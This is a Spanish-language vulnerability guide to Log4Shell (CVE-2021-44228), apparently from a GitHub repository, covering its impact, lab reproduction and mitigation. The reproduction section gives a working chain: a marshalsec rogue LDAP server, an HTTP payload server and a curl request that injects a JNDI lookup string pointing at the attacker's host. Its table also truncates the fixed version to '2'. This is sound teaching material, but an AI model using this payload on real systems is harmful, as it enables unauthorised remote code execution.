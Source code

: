 # CVE-2021-44228 Guía de Vulnerabilidad: Log4Shell

## 🔎 Descripción General

- **CVE-2021-44228**: Una vulnerabilidad crítica en Apache Log4j que permite a los atacantes ejecutar código remotamente mediante el registro de datos manipulados.

## ⚠️ Impacto

Permite a un atacante ejecutar código remotamente enviando datos especialmente diseñados que son registrados por Log4j.

## 🧪 Reproducción (Solo en Laboratorio Aislado)

**Pasos para reproducir:**

1. Instala una versión vulnerable de Log4j (por ejemplo, 2.14.1).
2. Levanta un servidor que registre entradas de usuario con Log4j (por ejemplo, una aplicación Java sencilla).
3. Configura un servidor LDAP falso con `marshalsec`:
   ```bash
   git clone https://github.com/mbechler/marshalsec.git
   cd marshalsec
   mvn clean package -DskipTests
   java -cp target/marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<tu-ip>:8080/#Exploit
   ```
4. Inicia un servidor HTTP que sirva el payload:
   ```bash
   python3 -m http.server 8080
   ```
5. Envía una solicitud HTTP con el payload:
   ```bash
   curl http://victima.com -H 'User-Agent: ${jndi:ldap://<tu-ip>:1389/Exploit}'
   ```
6. Observa si se ejecuta el código desde tu payload en el servidor víctima.


⚠️ **Advertencia:** Nunca pruebes estas técnicas fuera de un entorno de laboratorio controlado y con autorización explícita.

## 🛡️ Mitigación

Actualizar Log4j a la versión 2.17.0 o superior. También puedes eliminar la clase `JndiLookup` del classpath como mitigación temporal.

## 📝 Glosario

- **RCE**: Ejecución remota de código.
- **PoC**: Prueba de concepto.
- **LDAP**: Protocolo de acceso ligero a directorios.

## ✅ Tabla Resumen

| Aspecto              | Detalles                    |
|----------------------|-----------------------------|
| ID CVE               | CVE-2021-44228                    |
| Nombre               | Log4Shell                     |
| Impacto              | Permite a un atacante ejecutar código remotamente enviando datos especialmente diseñados que son registrados por Log4j      |
| Tipo de Explotación  | RCE                         |
| Requiere Autenticación | No                        |
| Mitigación           | Actualizar Log4j a la versión 2  |

## 🔄 Próximos Pasos

- Verificar si tu sistema está afectado.
- Aplicar los parches necesarios.
- Configurar controles de mitigación adicionales si no se puede parchear inmediatamente.
